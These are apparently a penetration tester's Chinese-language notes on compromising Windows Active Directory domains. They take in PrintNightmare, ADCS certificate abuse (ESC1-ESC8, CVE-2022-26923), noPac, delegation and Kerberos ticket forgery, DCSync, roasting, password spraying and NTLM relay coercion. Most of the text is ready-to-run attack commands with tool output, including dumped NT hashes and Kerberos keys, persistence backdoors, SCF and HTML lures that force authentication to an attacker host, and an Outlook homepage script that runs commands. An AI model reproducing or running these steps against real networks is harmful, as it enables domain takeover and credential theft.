./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL'
Windows开启匿名smb
需要提权至system
mkdir C:\share
icacls C:\share\ /T /grant Anonymous logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
Linux开启匿名samba
~~安装samba服务~~ 直接使用impacket的smbserver
/etc/samba/samba.conf
[global]
workgroup = workgroup
server string = test
netbios name = MZ
security = user
map to guest = Bad User
smb ports = 445
log file = /var/log/samba/log.%m
max log size = 5
[smb]
comment = Samba
browseable = yes
writeable = yes
public = yes
path = /tmp/
read only = no
guest ok = yes
ADCS中继（域证书管理服务） 2021-7
向DC发送请求，使DC向ADCS进行强制认证，将DC的认证请求中继到ADCS，获取hash。
需要改动一下impacket下的三个文件，之后重新运行setup
impacket/impacket/examples/ntlmrelayx/utils/config.py
impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
impacket/examples/ntlmrelayx.py
https://github.com/SecureAuthCorp/impacket/pull/1101/files
python利用
使用ADCS方式监听中继
python3 ntlmrelayx.py -t https://192.168.52.100/certsrv/certfnsh.asp -smb2support --adcs
如果证书服务器是域控，需要指定域控参数。
python3 ntlmrelayx.py -t https://192.168.14.100/Certsrv/certfnsh.asp -smb2support --adcs --template "DomainController"
需要开启了证书服务的web访问
向DC发送请求
python3 dementor.py -u pc1 -p Aa123123 -d exp1.com DC
python Petitpotam.py 192.168.52.129 192.168.52.100 -u pc1 -p Aa123123
mimikatz利用
监听和上面一样的
misc::spooler /server:dc.exp1.com /connect:192.168.52.129 /authuser:pc1@exp1.com /authpassword:Aa123123 /u
misc::efs /server:dc.exp1.com /connect:192.168.52.129 /noauth
CVE-2022–26923 (ADCS漏洞权限提升)
原理
ADCS在发证书时只校检请求的dnshostname参数，导致攻击者可以通过ms-DS-MachineAccountQuota新建一个虚拟机器并更改虚拟机器的dnshostname为域控的，后续在申请证书时便申请到了域控的证书。
利用
https://github.com/CravateRouge/bloodyAD
需要一个域内用户，需要知道ADCS是哪一台。
我在Linux上测试时，在获取tgt的步骤出现了错误，但是重试了几次又成功了，可能是还需要指定dc。
└─# certipy auth -pfx adcs1.pfx -ns 192.168.14.100
Certipy v3.0.0 - by Oliver Lyak (ly4k)
[*] Using principal: adcs1@exp1.com
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
使用bloodyAD验证域用户是否能添加机器，bloodyAD支持hash
└─# python3 bloodyAD.py -d INTRA.a.com -u admin -p 'acbcdefg.' --host 192.168.14.100 getObjectAttributes 'DC=exp1,DC=com' ms-DS-MachineAccountQuota 1 ⨯
{
"ms-DS-MachineAccountQuota": 10
}
创建一个机器
└─# python3 bloodyAD.py -d exp1.com -u adcs1 -p 'Aa123123' --host 192.168.14.100 addComputer 525 'Aa525525'
Opening domain EXP1...
Successfully added machine account 525$ with password Aa525525.
addcomputer.py 'lunar.eruca.com/thm:Password1@' -method LDAPS -computer-name 'THMPC' -computer-pass 'Password1@'
获取域控的dNSHostName
python3 bloodyAD.py -d exp1.com -u adcs1 -p 'Aa123123' --host 192.168.14.100 getObjectAttributes 'CN=dc,ou=domain controllers,DC=exp1,DC=com' dNSHostName
将创建机器的dNSHostName修改成域控的
└─# python3 bloodyAD.py -d exp1.com -u adcs1 -p 'Aa123123' --host 192.168.14.100 setAttribute 'CN=525,CN=Computers,DC=exp1,DC=com' dNSHostName '["dc.exp1.com"]'
dNSHostName set successfully
查询525机器的dnshostname可知已经修改成功了
└─# python3 bloodyAD.py -d exp1.com -u adcs1 -p 'Aa123123' --host 192.168.14.100 getObjectAttributes 'CN=525,cn=computers,DC=exp1,DC=com' dNSHostName
{
"dNSHostName": "dc.exp1.com"
}
为525申请一个证书
└─# certipy req 'exp1.com/525$:Aa525525@192.168.14.100' -template Machine -dc-ip 192.168.14.100 -ca exp1-dc-CA
Certipy v3.0.0 - by Oliver Lyak (ly4k)
[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 48
[*] Got certificate with DNS Host Name 'dc.exp1.com'
[*] Certificate object SID is None
[*] Saved certificate and private key to 'dc.pfx'
使用证书获取tgt，也可以用rubeus、keko获取。
└─# certipy auth -pfx dc.pfx -dc-ip 192.168.14.100 -ns 192.168.14.100 1 ⨯
Certipy v3.0.0 - by Oliver Lyak (ly4k)
[*] Using principal: dc$@exp1.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc.ccache'
[*] Trying to retrieve NT hash for 'dc$'
[*] Got NT hash for 'dc$@exp1.com': cc58bff8a6749646e92b603033bcbef7
拿域控机器用户hash dcsync
└─# secretsdump.py exp1.com/dc\$@192.168.14.100 -hashes :cc58bff8a6749646e92b603033bcbef7 -just-dc -just-dc-user administrator
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0baecfec3a6898d4ac4df0977107d32e:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:fe02efc0d157faaad39ca3fed88044b1f0ca41eef9cc47a6df22c6795a8e3f96
Administrator:aes128-cts-hmac-sha1-96:b8f016f2b435595558d605103dd25a10
Administrator:des-cbc-md5:4a9ddc0e9186983d
[*] Cleaning up...
PTH一下看看
└─# wmiexec.py exp1/administrator@192.168.14.100 -hashes :0baecfec3a6898d4ac4df0977107d32e 1 ⨯
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
exp1\administrator
异常情况处理（慎用）
当出现下面错误而不能得到解决时，可以尝试这里的办法。
我在本地尝试时失败了，然后域控崩了重启了，真实环境中不要这样打。
bloodyAD and CVE-2022-26923 | Total Recall
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)`
简而言之是在利用证书申请tgt的步骤改为以下
尝试使用证书设置新增机器到域控的委派
> openssl pkcs12 -in crashdc.pfx -out crashdc.pem -nodes
> python bloodyAD.py -d crashlab.local -c ":crashdc.pem" -u 'cve$' --host 10.100.10.12 setRbcd 'CVE$' 'CRASHDC$'
[+] CVE$ SID is: S-1-5-21-1945936656-2616711065-1665664270-1134
[+] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity correctly set
[+] Delegation rights modified successfully!
CVE$ can now impersonate users on CRASHDC$ via S4U2Proxy
委派攻击
> getST.py -spn LDAP/CRASHDC.CRASHLAB.LOCAL -impersonate emacron -dc-ip 10.100.10.12 'crashlab.local/cve$:CVEPassword1234*'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] Getting TGT for user
[*] Impersonating emacron
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in emacron.ccache
> cp emacron.ccache /tmp/
> export KRB5CCNAME=/tmp/emacron.ccache
这样就获得了tgt
CVE-2021-42287/CVE-2021-42278
在有普通域用户权限的情况下打域。
利用漏洞创建一个机器用户，再将机器用户的sAMAccountName改成真域控的名称，再用这个假域控去申请一个tgt，申请后sAMAccountName改回原来的。此时拿着tgt去请求s4u2self，这时KDC会自动搜索到真域控，就会拿到真域控的服务器票据ST。
回车即秒
dcsync
修改利用方式cifs为ldap以便来dcsync
目前工具仅支持明文密码。没有明文密码的情况下可以打下一台域内机器，不用-user和-pass参数也可以
生成黄金票据
利用krbtgt用户生成任意用户票据，以下直接生成域管票据
lsadump::dcsync /domain:exp1.com /user:krbtgt
kerberos::golden /admin:administrator /domain:exp1.com /sid:S-1-5-21-3280894980-4031048059-2076154112 /krbtgt:0d0b0ca11c57aaedb47b02f023b636a1 /ticket:yuguan.tck
rdp域控
有个很好用的工具拿shell，当然dcsync之后手动pth也是可以的 https://github.com/WazeHell/sam-the-admin
python3 sam_the_admin.py "exp/admin:123456" -dc-ip 10.1.1.1 -shell
shell搞完直接添加一个域管账号rdp上去
Kerberos Bronze Bit Attack
约束委派绕过
这里思路是找到非约束委派主机S1，再利用账户向DC请求票据，最后拿着票据攻击S2
1）找到配置了非约束的委派的账户和主机
通过命令查找
2）拿下权限 3）尝试Kerberos Bronze Bit Attack
runas /user:PC\administrator mimikatz
privilege::debug
sekurlsa::ekeys
4）请求票据
python3 getST.py -spn cifs/Service2.test.local -impersonate administrator -hashes AAD3B435B51404EEAAD3B435B51404EE:aa09cecb1728cd5cad6e779c7f370563 -aesKey 71f9caf9203575bbbe760e6a669d90cbe39be0b5a442496295e2f63990ee858f exp.com/PC -force-forwardable
5）PTT攻击
export KRB5CCNAME=xx.krb
psexec.py exp.com/cs@dc.exp.com -k -no-pass PC.exp.com
资源约束委派绕过
这里思路是先拿下一个S1，然后利用特权新建一个机器账户，再利用Microsoft.ActiveDirectory.Management.dll添加机器用户与S2的信任关系，再模拟机器用户向DC申请票据，最后通过票据登录S2。
1）首先需要通过powermad新加入一个计算机账户AttackerService，密码为AttackerServicePassword，用域账户jack登录service1。
注：这个powermad工具不仅可以通过滥用特权添加机器账户，还可以添加NS解析记录。NS解析记录可用于HTTP的NTLM RELAY。
Import-Module .\Powermad\powermad.ps1
New-MachineAccount -MachineAccount AttackerService -Password $(ConvertTo-SecureString 'AttackerServicePassword' -AsPlainText -Force)
2）然后使用PowerShell Active Directory模块添加基于资源的约束委派，即从AttackerService到Service2的传入信任关系。
Import-Module .\Microsoft.ActiveDirectory.Management.dll
Get-ADComputer AttackerService #确认机器账户已经被添加
Set-ADComputer Service2 -PrincipalsAllowedToDelegateToAccount AttackerService$
Get-ADComputer Service2 -Properties PrincipalsAllowedToDelegateToAccount
3）设置好基于资源的约束委派之后就可以模拟用户申请票据了。
hashes和aesKey参数来自于添加的机器用户AttackerService，mimikatz可以计算
kerberos::hash /password:AttackerServicePassword /user:AttackerService
python3 getST.py -spn cifs/Service2.test.local -impersonate administrator -hashes 830f8df592f48bc036ac79a2bb8036c5:830f8df592f48bc036ac79a2bb8036c5 -aesKey 2a62271bdc6226c1106c1ed8dcb554cbf46fb99dda304c472569218c125d9ffc test.local/AttackerService -force-forwardable
4）PTT攻击
export KRB5CCNAME=xx.krb
psexec.py exp.com/cs@dc.exp.com -k -no-pass PC.exp.com
资源约束委派绕过之SPN劫持
https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/
当资源约束委派攻击中无权限为添加的服务设置委派时，当设置了对SPN的委派时，可以利用此方式。
利用方式：
PowerView查看是否存在SPN委派
Get-DomainComputer iis -Properties 'msds-allowedtodelegateto'
给目标设置一个同样的SPN（需要有权限）
Set-DomainObject -Identity target$ -Set @{serviceprincipalname='spn/name'}
S4U攻击
Rubeus s4u /domain:exp1.com /user:target$ /rc4:xxxxxxxxxxxxxxxx /impersonateuser:administrator /msdsspn:"spn/name" /nowrap
MS16-075
potato系列，通过http协议relay，再反射回给本机的smb协议。用作提权
CVE-2018-8581
exchange ssrf漏洞
1）使用impacket监听端口进行等待连接
ntlmrelayx.py -t ldap://10.0.2.254 --no-dump -no-da -escalate-user cs
2）发起推送订阅指定所需的URL，Exchange 服务器将尝试向这个URL发送通知
privexchange.py -ah 10.0.2.4 owa2010sp3.exp.com -u sqladmin -p 123456 -d exp -ev 2010_SP1
3）relay到域控的ldap服务器会自动给普通用户添加两台ACL
4）dcync
secretdump.py exp.com/cs:123456@OWA2010SP3.exp.com -dc-ip 10.0.2.253 -just-dc-user administrator
CVE-2019-1040
smb需要签名的MIC防护绕过。
在攻击机起一个监听，将接收的smb指定中继到ldap协议，最终攻击目标是DC2；使用打印机漏洞或PetitPotam攻击DC1，使其强制认证到攻击机，攻击机再将NTLM中继到DC2的ldap协议
1）域控打法 使用impacket监听445进行等待域控进行连接
ntlmrelayx.py -t ldap://192.168.52.100 --escalate-user test1\$ --remove-mic --no-dump -smb2support
使用打印机漏洞让域控连接我们的445(注意攻击的域控跟回连的LDAP所在的服务器不要在同一台域控)
printerbug.py exp.com/cs:123456@10.0.2.4 10.0.2.5
使用PetitPotam让DC1连接攻击机的445，并中继到DC2的ldap
python Petitpotam.py 192.168.52.100 192.168.52.129
发起win7$到dc2012的s4u，通过-impersonate参数模拟DC1用户administrator的票证
getST.py exp.com/win7\$ -dc-ip 10.0.2.254 -spn cifs/dc2012r2.exp.com -hashes xxxx
-impersonate administrator
使用administrator用户的票据登录域控psexec，导入凭证
export KRB5CCNAME=administrator.ccache
psexec.py exp1.com/administrator@dc1.exp1.com -dc-ip 192.168.52.110 -k -no-pass
2）exchange打法
见exchange攻击面
CVE-2019-1384
这个是绕过MS08-068，通过超时发送type3
https://shenaniganslabs.io/files/impacket-ghostpotato.zip
域信任间的横向
在多域环境中只有一个Enterprise Admins组，该组是根域的管理员组，不存在于子域。
获取子域SID和子域krbtgt用户的SID。
获取根域的SID，以便组合出Enterprise Admins组的SID。
常见组SID如下：Domain Admins（S-1-5-domain-512）、Domain Users（S-1-5-domain-513）、Administrator（S-1-5-domain-500）、Enterprise Admins（S-1-5-root domain-519）、Domain Admins（S-1-5-domain-515）
伪造一个SID History的值为Enterprise Admins的SID的黄金票据，便可利用该票据利用的SID History来冒充Enterprise Admins的组成员。
域信任查询
都可以用
nltest /domain_trusts
mimikatz.exe "lsadump::trust /patch
SID查询
mimkatz查询（查询子域和根域的）
mimikatz.exe "lsadump::trust /patch"
powershell查询
查询子域的
shell powershell -ExecutionPolicy bypass -command "&{import-module C:\Users\Public\PowerView.ps1; Get-DomainSID}"
查询根域的
shell powershell -ExecutionPolicy bypass -command "&{import-module C:\Users\Public\PowerView.ps1; Convert-NameToSid exp\krbtgt}"
生成票据
标准
kerberos::golden /user:administrator /domain: /sid: /krbtgt:<KRBTGT_HASH> /sids:-519 /ptt
SIDS是Enterprise Admins组的SID，SID和hash是子域的信息
dcsync直接导根域
当然也可以导子域
lsadump::dcsync /domain:exp.com /all /csv
导出票据
会在当前目录导出票据
sekurlsa::tickets /export
ADCS利用面
查找ADCS服务器
certutil -dump -v
工具化
Certipy-main 整合了ESC1-ESC8的利用，详见Certipy-main文件夹下的readme
certi-main也整合了利用，详见readme
ADCSKiller包含ECS1和ECS8的自动化利用 https://github.com/grimlockx/ADCSKiller
ADCSPwn快速ESC8利用
申请证书
域内机器可以使用 certmgr.msc (用户证书)，certlm.msc (计算机证书) GUI 请求证书
命令导出
用户私钥 certutil -user -store My
mimikatz强制导出包含私钥的机器证书
privilege::debug
crypto::capi
crypto::certificates /systemstore:local_machine /store:my /export
mimikatz强制导出包含私钥的用户证书
privilege::debug
crypto::capi
crypto::certificates /systemstore:CURRENT_USER /store:my /export
搜索证书
dir /s /b C: | findstr *.pfx
| 后缀 | 描述 | |:---------------------- |:---------------------------- | | .pfx\ .p12\ .pkcs12 | 含公私钥，通常有密码保护 | | .pem | 含有base64证书及私钥，可利用openssl格式转化 | | .key | 只包含私钥 | | .crt\ .cer | 只包含证书 | | .csr | 证书签名请求文件，不含有公私钥 | | .jks\ .keystore\ .keys | 可能含有 java 应用程序使用的证书和私钥 |
通过证书获取TGT
使用PKINIT认证，可以通过X.509证书获取tgt
这里的证书必须是包含私钥的pfx格式的，需要知道证书密码
rubeus.exe asktgt /user:iis /certificate:xxx.pfx /password:123123
还可以使用certipy获取，详见CVE-2022-26923。
通过证书获取用户NTLM
需要特定模板及用户权限
kekeo
tgt::pac /subject:iis /castore:current_user
伪造证书-ESC1
CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT 滥用
使用Certify.exe find /vulnerable来发现存在可利用的证书模板
使用certutil.exe -TCAInfo查询CA状态。
当存在错误配置时可进行利用。
Certify.exe request /ca:"DC.exp1.com\exp1-DC-CA" /template:”ESC1“ /altname:administrator
将获取的pem证书转换成pfx
openssl pkcs12 -in ~/cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out ~/cert.pfx
利用证书申请域管的TGT
Rubeus4.exe asktgt /user:Administrator /certificate:cert.pfx /password:123456 /outfile:cert.kribi /ptt
伪造证书-ESC2&ESC3
注册代理证书滥用
Certify.exe request /ca:"DC.exp1.com\exp1-DC-CA" /template:ESC3_2 /onbehalfof:administrator /enrollcert:esc3_1.pfx /enrollcertpw:123456
伪造证书-ESC6
EDITF_ATTRIBUTESUBJECTALTNAME2 滥用
判断CA是否开启SAN标识，如存在EDITF_ATTRIBUTESUBJECTALTNAME2 ，则可利用
certutil -config "DC.exp1.com\exp1-DC-CA" -getreg "policy\EditFlags"
创建证书请求
certreq –new usercert.inf certrequest.req
#usercert.inf
[NewRequest]
KeyLength=2048
KeySpec=1
RequestType = PKCS10
Exportable = TRUE
ExportableEncrypted = TRUE
[RequestAttributes]
CertificateTemplate=USER
证书机构攻击-ESC7
中继攻击-ESC8
利用req请求得到证书
certreq -submit -config "DC.exp1.com\exp1-DC-CA" -attrib "SAN:upn=administrator@exp.com" certrequest.req certrequest.cer
然后导入cer后将证书导出pfx格式，再获取tgt
黄金证书
在CA服务器上使用ForgeCert来导出pem的证书,再转换成pfx
Forgecert -i cert.pfx -o admin.pfx -pfx -p 123123 -op 123123 -a administrator
密码喷洒
使用DomainPasswordSpray.ps1
https://github.com/dafthack/DomainPasswordSpray
powershell.exe -exec bypass Import-Module DomainPasswordSpray.ps1
#枚举用户输出成txt
Get-DomainUserList | Out-File -Encoding ascii userlist.txt
#喷洒
Invoke-DomainPasswordSpray -UserList users.txt -Domain exp.com -PasswordList passlist.txt -OutFile sprayed-creds.txt
AS-REPRoasting
如果存在设置了选项不需要kerberos预身份验证的用户，可以直接攻击
查找具有此属性的用户
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
发包且监听
Rubeus.exe asreproast
Rubeus.exe asreproast /dc:xxx
GPP利用
读取组策略文件
dir /s /a \\DC.exp.com\SYSVOL\exp.com\*.xml
powershell import-modulo .\Get-GPPpassword.ps1;Get-GppPassword
kerberoasting
其原理在于先用LDAP查询于域的spn，再通过发送TGS包，提取拼接得到hashcat或者john能爆破的格式。
python3 targetedKerberoast.py -v -d exp1.com -u user -p xx
rubeus攻击直接一键化了。
发包并监听
rubeus.exe kerberoast
kirbi票据破解
python tgsrepcrack.py mima.txt 123.kirbi
留后门
给管理员注册一个UNC的服务留后门，随时可以拿读管理员kirbi
setspn -U -A UNC/dc.exp.com administrator
委派攻击
在adsiedit.msc可以打开ADSI编辑器链接LDAP。
Kerberos 委派是一种允许服务将用户模拟可以访问到其他服务的机制。例如，用户可以访问前端应用程序，而该应用程序又可以使用用户的标识和权限访问后端 API。
配置无约束委派和约束委派需要 SeEnable委派权限，默认情况下，该权限仅授予域管理员。因此，即使用户对 AD 帐户具有完全控制 （GenericAll），如果不具有 SeEnableDelegation 特权，他也无法配置这些 Kerberos 委派类型中的任何一种。与无约束委派和约束委派不同，RBCD 要求有权更改 msDS-AllowedToActOnBehalfOfOtherIdentity 属性，但没有特权。
非约束委派攻击
非约束委派要求用户将其票证授予票证 （TGT） 发送到前端服务（服务器 A）。然后，前端服务（服务器A）可以使用该票证将用户模拟到任何服务，包括后端服务（服务器 B）。
因为可以模拟到任何服务，所以叫非约束的。
攻击利用：
1.找到配置了非约束的委派的机器账户（使用命令） 2.拿下权限 3.监听来自DC的访问
需要以机器用户的权限运行，也就是system
Rubeus.exe monitor /interval:1 /filteruser:dc$
4.触发NTLM中继，得到域控的票据 a.打印机漏洞 b.其他UNC方式，需要域管交互
5.导入base64的ticket
.\Rubeus.exe ptt /ticket:base64
mimikatz导出票据
privilege::debug
sekurlsa::tickets /export
还可通过powershell写成票据文件，可以用rubeus直接导出
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("Y21kIC9jIG5ldCB1c2VyIGJ5cGFzc3VhYyAxMjM0NTYgL2FkZA=="))
PTT
kerberos::ptt 1.kirbi
lsadump::dcsync /domain:test.local /all /csv
约束委派攻击
约束委派允许前端服务（服务器 A）获取 Kerberos 服务票证，以便用户访问由其服务主体名称 （SPN） 指定的预定义服务列表，例如后端服务服务器 B。
请注意，约束委派允许服务凭空模拟用户，无论他们是否通过服务身份验证。许多人认为这取决于 TrustedToAuthForDelegation 属性的配置。
约束委派只能委派访问SPN指定的服务，所以叫约束的。
S4U2SELF概念
使得服务可以代表用户获得针对服务自身的kerberos服务票据。服务向KDC认证成功后，服务代表用户获得访问服务的票据。
S4U2PROXY概念
服务1拿着S4U2SELF申请到的票据向服务2申请访问服务2的票据
委派服务1只能访问服务2的某些资源。
DC上配置委派用户，用来处理其他用户对DC上特定服务的访问请求
DC上配置委派主机，用来处理其他用户对DC上特定服务的访问请求
1.找到配置了非约束的委派的账户和主机
2.拿下权限
3.基于委派服务用户向服务器请求TGT
使用keko冒充委派服务用户请求TGT，密码明文，hash，aes加密都行
tgt::ask /user: /domain:exp.com /password:password
tgt::ask /user:PC2$ /domain:exp1.com /NTLM:29a243bdf1df2e2e770c943e20de4d4b
4.通过s4u伪造administrator@exp.comifs服务
tgs::s4u /tgt:1.kirbi /user:administrator /service:cifs/iis.exp1.com
S4U2Self获取到的ST1以及S4U2Proxy获取到的dm08 CIFS服务的ST2会保存在当前目录下
5.PTT
kerberos::ptt administrator@cifs.kirbi
资源约束委派攻击-RBCD
RBCD 与约束委派非常相似，只是约束的方向是相反的。它指定允许谁委派给服务，而不是允许服务委派给谁。换言之，如果允许服务器 A 在约束委派中委派给服务器 B，则将在服务器 A 的属性中配置约束。在 RBCD 中，它将在服务器 B 的属性中进行配置。
约束委派和 RBCD 之间的另一个重要区别是，约束委派指定目标服务的 SPN。相反，RBCD 在安全描述符中指定被委派服务的 SID。
解释有点绕，简单地说就是，约束委派是委派某个服务能代表用户能访问哪些服务（SPN），这是指定SPN；资源约束委派是委派这个服务（SPN）能被哪些被委派的服务访问，指定被委派的那些服务的SID。
攻击利用
适用2012 R2和Windows Server 2012及以上。实现利用域内用户对资源约束委派机器的攻击，如果资源约束委派机器是域控，那么可以实现对域控的攻击。
利用得到的a2用户添加一个机器账户test2$
addcomputer.py -method SAMR -dc-ip 192.168.52.100 -computer-name test4 -computer-pass Aa123456 "exp1.com/a2:Aa123123"
模拟配置test2$到IIS的资源约束委派，需要配置委派的权限（msDS-AllowedToDelegateTo）
这里是直接在获取的域内机器上添加委派配置（更改msDS-AllowedToActOnBehalfOfOtherIdentity属性）。还可以利用中继修改资源委派配置，但需要被修改的机器开启了webclient服务。
使用powerview查询sid
Get-NetComputer test4
设置资源约束委派
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3280894980-4031048059-2076154112-1129)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer IIS| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

S4U攻击，获取管理员票据
getST.py -dc-ip 192.168.52.100 -spn cifs/iis -impersonate Administrator exp1.com/test2$:Aa123123
对IIS的PTT
export KRB5CCNAME=Administrator.ccache
psexec.py -no-pass -k iis
NTML RELAY攻击
NTLM协议是加载在smb、http、ldap等协议上的，relay攻击的过程就是中间人攻击的过程。主要用于域内攻击。
v1版本的NET NTLM拿到相当于拿到hash，使用这里破解NET NTLMv1不需要RELAY，不过v1版本在win7/server2008之后就不适用了，之后的版本都是v2，v2的攻击方式主要是relay。
v2的破解使用hashcat
hashcat -m 5600 win10::TEST:1122334455667788:622DED0816CFF5A0652209F20A7CF17A:0101000000000000C0653150DE09D201532C07A7DEE654B8000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D2010600040002000000080030003000000000000000010000000020000067840C88904F15E659858A3CBA35EBEF61A38EC88C5E3D26B968F1C20C9ACAC10A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E003100300030002E0031000000000000000000 /tmp/password.dic --force
以下分三种不同协议的利用方式进行说明。
responder工具发起监听https://github.com/lgandx/Responder，但不能中继。
监听启动后，会自动捕获NTLM验证
responder -I eth0 -A
impacket下的ntlmrelayx和ldaprelax都可以中继。
接收smb，中继到smb
ntlmrelayx.py -t smb://10.0.2.5 -c whoami -smb2support
接收smb，中继到ldap
ntlmrelayx.py -t ldap://10.0.2.5 -c whoami -smb2support
RELAY2SMB
桌面
修改桌面的desktop.ini的IconResource路径为UNC路径，当在域控上打开桌面文件夹时可成功攻击
SCF文件
新建scf文件，放到文件夹下，诱导访问这个文件夹
[Shell]
Command=2
IconFile=\\10.0.2.4\scf\test.ico
[Taskbar]
Command=ToggleDesktop
用户头像
win10的情况下，修改用户的头像为UNC地址
命令执行
以下是可以携带UNC的命令。都可以命令执行了，还需要relay吗？
> net.exe use \hostshare
> attrib.exe \hostshare
> bcdboot.exe \hostshare
> bdeunlock.exe \hostshare
> cacls.exe \hostshare
> certreq.exe \hostshare #(noisy, pops an error dialog)
> certutil.exe \hostshare
> cipher.exe \hostshare
> ClipUp.exe -l \hostshare
> cmdl32.exe \hostshare
> cmstp.exe /s \hostshare
> colorcpl.exe \hostshare #(noisy, pops an error dialog)
> comp.exe /N=0 \hostshare \hostshare
> compact.exe \hostshare
> control.exe \hostshare
> convertvhd.exe -source \hostshare -destination \hostshare
> Defrag.exe \hostshare
> diskperf.exe \hostshare
> dispdiag.exe -out \hostshare
> doskey.exe /MACROFILE=\hostshare
> esentutl.exe /k \hostshare
> expand.exe \hostshare
> extrac32.exe \hostshare
> FileHistory.exe \hostshare #(noisy, pops a gui)
> findstr.exe * \hostshare
> fontview.exe \hostshare #(noisy, pops an error dialog)
> fvenotify.exe \hostshare #(noisy, pops an access denied error)
> FXSCOVER.exe \hostshare #(noisy, pops GUI)
> hwrcomp.exe -check \hostshare
> hwrreg.exe \hostshare
> icacls.exe \hostshare
> licensingdiag.exe -cab \hostshare
> lodctr.exe \hostshare
> lpksetup.exe /p \hostshare /s
> makecab.exe \hostshare
> msiexec.exe /update \hostshare /quiet
> msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)
> mspaint.exe \hostshare #(noisy, invalid path to png error)
> msra.exe /openfile \hostshare #(noisy, error)
> mstsc.exe \hostshare #(noisy, error)
> netcfg.exe -l \hostshare -c p -i foo
XSS
适用于IE和EDGE，还可以结合NBNS投毒利用
<script src="api/images/d6p2cWHmAlOa/xss">
邮件
同XSS
<img src="api/images/FuF94ZAJsdxd/outlook">
mysql
需要具备load_file权限，且没有secure_file_priv的限制(5.5.53默认是空，之后的话默认为NULL就不好利用了,不排除一些管理员会改)
select load_file('\\\\172.16.100.1\\mysql');
NBNS和LLMNR
滥用MachineAccountQuota属性，添加NS解析条目
Invoke-DNSUpdate -DNSType A -DNSName kali -DNSData 10.0.2.4
XXE&SSRF
SSRF使用file协议，XXE xml文件使用UNC路径或http协议。
配合NBNS可以直接利用http协议
MS-RPRN (PrinterBug)
本地测试printerbug.py的时候，发现开了Print Spooler服务不行，还需要设置一个共享的打印机。
python printerbug.py exp.com/cs@10.0.2.5 10.0.2.4
SpoolSample.exe 目标 回连
MS-EFSRPC (PetitPotam)
利用MS-EFSRPC缺陷，使AD强制发送认证，5为NTLM监听，254为目标DC。
可以通过efsrpc和lsarpc触发，但efsrpc较不常见，lsarpc可以在08和12的系统上匿名触发，16上需要一个用户凭据触发。是否需要一个域内用户密码取决于域控组策略中的"可匿名访问的命名管道"的配置。组策略不为空，也是可以触发的。
域用户触发
Petitpotam.py -u test -p asdmin123 -d exp1.com -pipe lsarpc 10.0.2.5 10.0.2.254
匿名触发
python Petitpotam.py -pipe lsarpc 192.168.52.129 192.168.52.100
MS-FSRVP (ShadowCoerce)
MS-FSRVP是Microsoft的文件服务器远程VSS协议。它用于在远程计算机上创建文件共享的卷影副本，以及便于备份应用程序在 SMB2 共享上执行应用程序一致性备份和数据还原。
利用条件是需要启用文件服务器VSS代理服务
python3 shadowcoerce.py -d "exp1.com" -u "t1" -p "Aa123123" 192.168.14.128 192.168.14.100
MS-DFSNM（DFSCoerce）
通过指定分布式文件系统的RPC管道netdfs来进行强制中继，需要一个域用户和密码（或hash）
https://github.com/Wh04m1001/DFSCoerce
128是监听，100是目标
python dfscoerce.py -u a2 -p Aa123123 192.168.14.128 192.168.14.100
RELAY2EWS
https://github.com/Arno0x/NtlmRelayToEWS
homepage
<html>
<head>
<meta http-equiv="Content-Language" content="en-us">
<meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
<title>Outlook</title>
<script id=clientEventHandlersVBS language=vbscript>
<!--
Sub window_onload()
Set Application = ViewCtl1.OutlookApplication
Set cmd = Application.CreateObject("Wscript.Shell")
cmd.Run("calc")
End Sub
-->
</script>
</head>
<body>
